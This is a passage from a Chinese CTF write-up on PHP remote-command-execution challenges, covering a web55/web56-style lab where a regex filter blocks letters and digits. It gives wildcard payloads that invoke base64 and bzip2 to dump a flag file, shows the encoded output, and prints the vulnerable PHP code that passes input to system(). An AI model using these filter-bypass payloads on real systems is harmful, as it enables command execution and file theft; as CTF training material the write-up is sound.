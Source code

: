 直接过滤了所有小写字母！！！。

那么这里肯定是要无字符 rce 。

但是这里没有过滤通配符，所以可以找到一个带有数字的命令，利用通配符执行命令。

1. ##### base64的使用

   有个命令是 `/bin/base64`  ，我们可以据此构造

   ```
   ?c=/???/????64 ????????
   ```

   得到

   ```
   PD9waHANCg0KLyoNCiMgLSotIGNvZGluZzogdXRmLTggLSotDQojIEBBdXRob3I6IGgxeGENCiMg QERhdGU6ICAgMjAyMC0wOS0wNyAxOTo0MDo1Mw0KIyBATGFzdCBNb2RpZmllZCBieTogICBoMXhh DQojIEBMYXN0IE1vZGlmaWVkIHRpbWU6IDIwMjAtMDktMDcgMTk6NDE6MDANCiMgQGVtYWlsOiBo MXhhQGN0ZmVyLmNvbQ0KIyBAbGluazogaHR0cHM6Ly9jdGZlci5jb20NCg0KKi8NCg0KDQokZmxh Zz0iZmxhZ3tlYTY0MTJlZi03NGY3LTQ1ZjItYWJiYS05M2Y2ODZkOTkwZDh9Ijs= 
   ```

   解码即得到flag.

2. **bzip2**

   bzip2 是 linux 下面的压缩文件的命令。在 `/usr/bin/bzip2`

   构造

   ```
   ?C=/???/???/????2 ????????
   ```

   然后访问 `flag.php.bz2` 下载即可获得 flag.php

3. 临时文件上传

   https://www.gem-love.com/websecurity/1407.html

   https://blog.csdn.net/qq_46091464/article/details/108557067

## web56~临时文件

```php
<?php

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
} 
```

多过滤数字，所以用不了上题的前两种方法。这里只能详细写一下上题的第三种方法了。

